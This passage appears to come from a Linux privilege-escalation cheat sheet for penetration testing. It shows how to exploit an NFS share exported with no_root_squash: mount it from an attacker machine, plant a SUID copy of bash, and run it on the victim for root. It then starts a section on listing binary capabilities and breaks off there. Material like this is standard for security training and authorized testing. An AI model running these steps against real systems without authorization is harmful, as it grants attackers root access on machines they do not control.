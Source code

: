 ## NFS

Read the /etc/exports file

```bash
cat /etc/exports
```

Look for the **no_root_squash** or **no_all_squash** flag. If the directory that is configured this flag, you can mounting and write to this directory as root. Example:

```bash
user@victim:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/srv/share localhost(rw,sync,no_root_squash)
```

Mount the directory to kali (If only for localhost, use port forwarding technique)

```bash
mkdir /tmp/mounting
mount -t nfs <Victim IP>:<SHARED_FOLDER> /tmp/mounting
cp /bin/bash /tmp/mounting
chmod +s /tmp/mounting/bash
```

Then, run our file on victim:

```bash
cd <SHARED_FOLDER>
./bash -p
```

## Capabilities

!!! info
Capabilities in Linux allow them specific privileges that are normally reserved for root-level actions (intercept network traffic, mount/unmount file systems, ...)

Listing capabilities of binaries

```bash
/usr/bin/getcap -r  /usr/bin
```

Interesting capabilities
